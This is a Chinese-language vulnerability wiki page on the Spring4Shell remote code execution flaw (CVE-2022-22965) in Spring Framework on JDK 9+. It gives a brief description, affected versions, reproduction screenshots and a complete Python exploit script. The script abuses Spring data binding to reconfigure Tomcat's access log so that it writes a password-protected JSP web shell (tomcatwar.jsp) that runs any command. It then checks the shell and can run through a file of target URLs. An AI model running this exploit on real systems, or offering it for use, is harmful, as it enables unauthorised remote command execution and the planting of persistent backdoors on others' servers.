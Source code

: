 # Spring Core JDK9+ Spring4Shell远程命令执行漏洞 *CVE*-2022-22965

## 漏洞描述

Spring是目前世界上最受欢迎的JavaEE轻量级开源框架，是Java世界最为成功的框架之一。专注于简化Java企业级应用开发的难度、缩短开发周期。该框架存在远程代码执行漏洞。结合JDK9及以上新版本的特性可以实现对历史漏洞补丁的绕过从而实现远程代码执行。

## 漏洞影响

<a-checkbox checked>JDK 9.0+, Spring 框架, 衍生框架spring-beans-*.jar</a-checkbox></br>

## 漏洞复现

![img](/assets/PeiQi-Wiki/img/1648707142327-ac12fca3-0b71-4d7a-9a63-2afb632b2478.png)

![img](/assets/PeiQi-Wiki/img/1648707153387-68e94738-b82e-491b-b5f2-aea83a44326c.png)

![img](/assets/PeiQi-Wiki/img/1648707194053-66b17ce7-78f2-44fa-9030-706812093cf1.png)

![img](/assets/PeiQi-Wiki/img/1648707221623-63f0b8fd-68fc-40b3-93ab-3c849f549c7d.png)

![img](/assets/PeiQi-Wiki/img/1648707223946-3cd95600-be21-4bb8-b97d-0c7235f18e55.png)

![img](/assets/PeiQi-Wiki/img/1648707238287-438fa60f-0b47-4045-817e-1815e84336b0.png)

![img](/assets/PeiQi-Wiki/img/1648707240439-c13c2a1c-a1b8-4765-b3cd-bec110e89a91.png)



## 漏洞POC

```php
#coding:utf-8

import requests
import argparse
from urllib.parse import urljoin

def Exploit(url):
    headers = {"suffix":"%>//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"

    }
    data = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
    try:

        go = requests.post(url,headers=headers,data=data,timeout=15,allow_redirects=False, verify=False)
        shellurl = urljoin(url, 'tomcatwar.jsp')
        shellgo = requests.get(shellurl,timeout=15,allow_redirects=False, verify=False)
        if shellgo.status_code == 200:
            print(f"漏洞存在，shell地址为:{shellurl}?pwd=j&cmd=whoami")
    except Exception as e:
        print(e)
        pass




def main():
    parser = argparse.ArgumentParser(description='Srping-Core Rce.')
    parser.add_argument('--file',help='url file',required=False)
    parser.add_argument('--url',help='target url',required=False)
    args = parser.parse_args()
    if args.url:
        Exploit(args.url)
    if args.file:
        with open (args.file) as f:
            for i in f.readlines():
                i = i.strip()
                Exploit(i)

if __name__ == '__main__':
    main()
```

## 参考文章

<a-alert type="success" message="https://github.com/craig/SpringCore0day" description="" showIcon>
</a-alert>
<br/>